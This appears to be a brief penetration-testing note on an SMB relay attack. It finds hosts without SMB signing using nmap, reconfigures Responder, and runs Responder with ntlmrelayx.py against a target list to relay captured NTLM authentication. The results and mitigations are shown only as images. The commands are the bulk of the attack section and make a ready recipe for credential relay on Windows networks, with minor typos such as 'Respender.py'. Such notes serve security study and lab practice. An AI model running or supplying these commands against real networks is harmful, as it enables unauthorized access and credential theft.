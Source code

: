 - - -
## Discovering : 

```sh
nmap --script=smb2-security-mode.nse-p445 10.10.10.0 
```

Check for “<mark class="hltr-red">Message signing is Enabled</mark>” 

Create **<u>targets.txt</u>** and put your IPs inside  for attacks. 
<br>

- - -
## Attacking Steps : 

```sh
leafpad /etc/responder/Responder.conf 

# < Turn “off” SMB and HTTP  and save > 
```

```python
python Respender.py -I tun0 -rdw -v 
```

```python
ntlmrelayx.py -tf targets.txt -smb2support 
```

Now wait for somebody to connect 
Like this : 

![Imgur](https://i.imgur.com/gTTm3lR.png)

And we will get : 
![Imgur](https://i.imgur.com/ouLqm2w.png)
<br>

- - -
##  Mitigations ( Defense ) : 

![Imgur](https://i.imgur.com/IcACjvu.png)
<br>

- - -